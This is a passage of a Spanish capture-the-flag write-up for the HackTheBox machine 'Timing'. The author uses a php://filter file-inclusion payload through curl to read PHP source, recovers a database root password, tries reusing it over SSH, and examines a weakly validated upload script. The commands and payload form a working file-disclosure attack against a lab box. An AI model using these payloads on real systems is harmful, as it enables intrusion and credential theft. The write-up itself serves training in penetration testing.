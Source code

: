 En este fragmento de código vemos que se importa otro archivo php de nombre **`db_conn`**, que posiblemente contenga la contraseña de acceso a la base de datos.

```console
p3ntest1ng:~$ curl -s -X GET "http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=db_conn.php" | base64 -d
<?php
$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');
```

Con esta información podemos probar si existe reutilización de contraseñas con alguno de los usuarios que encontramos en el **`/etc/passwd`**

```console
p3ntest1ng:~$ ssh aaron@timing.htb
The authenticity of host 'timing.htb (10.10.11.135)' can't be established.
ECDSA key fingerprint is SHA256:w5P4pFdNqpvCcxxisM5OCJz7a6chyDUrd1JQ14k5smY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'timing.htb,10.10.11.135' (ECDSA) to the list of known hosts.
aaron@timing.htb's password: 4_V3Ry_l0000n9_p422w0rd
Permission denied, please try again.
```

Tampoco tenemos suerte con esto, podemos leer el archivo upload.php para ver cómo está construido.

```console
p3ntest1ng:~$ curl -s -X GET "http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=upload.php" | base64 -d
```

```php
<?php
include("admin_auth_check.php");

$upload_dir = "images/uploads/";

if (!file_exists($upload_dir)) {
    mkdir($upload_dir, 0777, true);
}

$file_hash = uniqid();

$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
$target_file = $upload_dir . $file_name;
$error = "";
$imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));

if (isset($_POST["submit"])) {
    $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
    if ($check === false) {
        $error = "Invalid file";
    }
}

// Check if file already exists
if (file_exists($target_file)) {
    $error = "Sorry, file already exists.";
}

if ($imageFileType != "jpg") {
    $error = "This extension is not allowed.";
}

if (empty($error)) {
    if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
        echo "The file has been uploaded.";
    } else {
        echo "Error: There was an error uploading your file.";
```